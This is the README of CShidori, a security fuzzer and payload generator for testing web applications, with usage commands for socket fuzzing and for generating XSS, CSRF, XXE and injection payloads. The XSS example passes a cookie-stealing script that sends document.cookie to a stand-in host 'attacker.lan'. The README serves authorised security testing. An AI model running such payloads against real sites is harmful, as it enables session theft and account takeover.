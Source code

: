 # CShidori

![.DOTNET](https://github.com/Aif4thah/CShidori/actions/workflows/dotnet.yml/badge.svg?branch=main)
[![Known Vulnerabilities](https://snyk.io/test/github/Aif4thah/CShidori/badge.svg)](https://snyk.io/test/github/Aif4thah/CShidori)
[![HitCount](https://hits.dwyl.com/Aif4thah/CShidori.svg?style=flat-square)](http://hits.dwyl.com/Aif4thah/CShidori)
[![contributions welcome](https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat)](https://github.com/dwyl/esta/issues)

**Get Data and Fuzz Your App**

![](Intro.png)

## Real life vulnerabilities discovered by this tool

* Open Redirect: 1
* IDOR: 1
* XSS: 1
* Application Data Leak: 2

## Disclaimer

Usage of all tools on this site for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused by this site. This tools is provided "as is" without warranty of any kind.

## References

* Taisen: [Website](https://taisen.fr)

* CShidori is part of [SIMPLE project (french)](https://github.com/Aif4thah/SIMPLE)

* OWASP Web Application Security Testing Guide: [07-Input Validation Testing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/)

## Fuzzer and Data

### Fuzzer

* TLS Sockets (including HTTPS and other SSL/TLS encapsulated protocols)
* TCP Sockets (TCP layer and OSI 5,6,7 protocols, including HTTP )

### Machine Learning

* CShidori learns and tries to detect vulnerabilities from your fuzzing history
* ML is not miraculous thing, you have to train it for your Apps ;)

### Data Generation Modes 
* Mutation
* XSS
* JSON
* XML
* GET
* CSRF
* XXE
* MSTest
* Encoding
* List Generation

### Payloads

* Chars (default)
* Strings (default)
* DotNet
* Java
* C
* Angular
* JavaScript

## Mutation Fuzzing

### TLS sockets

put your request in a text file (for HTTPS use Zap/Burp "copy to file")

```powershell
.\CShidori.exe -m tls -o ..\testing\ZAP-Post-req.raw -i 127.0.0.1 -p 443
```

### TCP Sockets

put your request in a text file (for HTTP use Zap/Burp "copy to file")

```powershell
.\CShidori.exe -m tcp -o ..\testing\burp.req -i 127.0.0.1 -p 80
```
### Analyse logs

use the `Import-Csv` cmdlet or the `.\CShidoriLogsViewer.ps1` script. 
You can then parse the logs as powershell objects.

```powershell
. .\CShidoriLogsViewer.ps1
Get-CShidoriLogs .\127-0-0-1-b4e09da3-7e34-46f2-9ce9-6f8b1d3a3019.csv -ResponseMatch "bad" -ExcludeSize 295 -debug   
```

### Go further with MultiThreading

Edit and execute the `Start-Fuzzing-Function.ps1` script

```powershell
. .\Start-Fuzzing-Function.ps1
Start-Fuzzing
```
### Speed

Note that Cshidori contains a thread.sleep to respect somes firewall policies, feel free to rebuild it

## Data Generation

### Mutation

generate 5 mutation (chars and bitflip) for the value "test" :

```powershell
.\CShidori.exe -m mut -o 5 -p test -d Chars
```

### XSS / Injections

wrapp xss command to test multiples injections:

```powershell
.\CShidori.exe -m xss -p 'document.location=\"https://attacker.lan?c=\"+document.cookie'
```

### JSON

Inject java and general payloads in all parameters of a Json request

```powershell
.\CShidori.exe -m json -p ..\testing\test.json -d Java,Strings
```

### XML

Inject .NET payloads in all parameters of an XML request

```powershell
.\CShidori.exe -m xml -p ..\testing\exemple.xml -d DotNet
```

### GET

Inject default payloads in all GET parameters and tests parameters polution

```powershell
.\CShidori.exe -m get -p "?bar=foo&foo=bar"
```

### CSRF

Generate get and post CSRF exploits

```powershell
.\CShidori.exe -m csrf -o get -p http://target.lan -i "name1=value1&name2=value2"
.\CShidori.exe -m csrf -o post -p http://target.lan -i "name1=value1&name2=value2"

```

### XXE

Generate XXE payload

```powershell
.\CShidori.exe -m xxe
```
### MSTEST

Generate Test for Microsoft.VisualStudio.TestTools.UnitTesting (Beta)

```powershell
.\CShidori.exe -m mst -p 'function( \"value1\", 2, FUZZ)' -i FUZZ
```

### Encode

Encode your payload

```powershell
.\CShidori.exe -m enc -p "<script>alert(1)</script>"
```

### List Generation

Generate a payload list

```powershell
.\CShidori.exe -m gen -d Chars,Java
```

## Miscellaneous

### SOAP & XSD

Removed since you can perform it from Visual Studio:
- Merge all XSD files in WSDL file
- Right click on the project and select "Add Service Reference" -> "WCF" -> "enter localPath"
